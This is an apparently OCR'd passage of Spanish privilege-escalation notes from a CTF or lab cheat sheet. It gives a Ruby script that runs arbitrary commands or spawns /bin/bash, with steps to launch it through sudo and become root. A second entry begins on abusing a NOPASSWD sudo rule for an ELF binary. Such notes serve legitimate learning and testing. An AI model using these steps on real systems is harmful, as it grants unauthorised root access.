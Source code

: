 # Ejecutar un comando como root
def ejecutar_comando
  puts "Escribe el comando que quieres ejecutar como root:"
  print "> "
  comando = gets.chomp
  puts "Ejecutando: #{comando}"
  resultado = `#{comando}` # Ejecuta el comando
  puts "Resultado:\n#{resultado}"
end

# Crear un shell interactivo como root
def shell_root
  puts "Iniciando una shell interactiva como root..."
  exec "/bin/bash"
end

puts "¿Qué quieres hacer?"
puts "1. Ejecutar un comando como root"
puts "2. Abrir una shell interactiva como root"
print "> "
opcion = gets.chomp.to_i

if opcion == 1
  ejecutar_comando
elsif opcion == 2
  shell_root
else
  puts "Opción no válida"
end


luego se le da permisos de ejecución:
chmod +x script.rb

luego:

sudo /home/alice/scripts/script.rb

y listo somos root.

-------------------------------------------------------------------------------

46.-	/home/codebad/code

 si tenememos un archivo ELF(Executable and Linkable Format) en C que lea archivos del sistema: ls

ejemplo:
soy el usuario codebad: y ejecuto sudo -l

User codebad may run the following commands on 76aa71834ef3:
    (metadata : metadata) NOPASSWD: /home/codebad/code

el archivo code es un archivo ELF que solo ejecuta ls
